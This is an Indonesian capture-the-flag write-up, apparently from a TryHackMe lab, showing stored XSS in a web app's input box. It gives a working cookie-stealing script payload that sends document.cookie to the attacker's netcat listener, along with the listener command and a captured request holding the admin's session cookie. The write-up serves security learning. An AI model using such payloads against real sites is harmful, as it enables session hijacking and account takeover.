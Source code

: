 akses target pada `http://IP-target:3000/`. kita perlu untuk register terlebih dahulu. Setelah register, login dengan akun yang telah dibuat.

selanjutnya pada home page akan terdapat box untuk memasukkan input. kita dapat coba untuk melakukan XSS dengan cara
```html
<script>alert('xss');</script>
```

dan sesuai ekspektasi, keluar popup alert berisi string 'xss'.
Selanjutnya kita akan menargetkan cookie dari user yang ada. setup netcat listener pada terminal terlebih dahulu
```
nc -lvnp 6666
```

Selanjutnya masukkan script berikut pada box input, dan jangan lupa untuk mengganti `IP-local` dengan IP tun0 yang terhubung dengan THM.
```html
<script>window.location='http://IP-local:6666/page?param='+document.cookie;</script>
```
selanjutnya submit.

nantinya akan ada koneksi yang masuk pada netcat kita, namun koneksi tersebut adalah dari akun kita sendiri, dan bukan dari admin. Kita perlu memutus koneksinya dengan CTRL+C, setup netcat listener lagi dengan port yang sama dan tunggu beberapa saat. Nantinya akan muncul koneksi baru, dan untuk koneksi ini adalah dari admin.

```
connect to [10.11.54.133] from (UNKNOWN) [10.10.95.133] 36954
GET /page?param=authid=2564799a4e6689972f6d9e1c7b406f87065cbf65 HTTP/1.1
Host: 10.11.54.133:666
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/77.0.3844.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://localhost:3000/admin
Accept-Encoding: gzip, deflate
```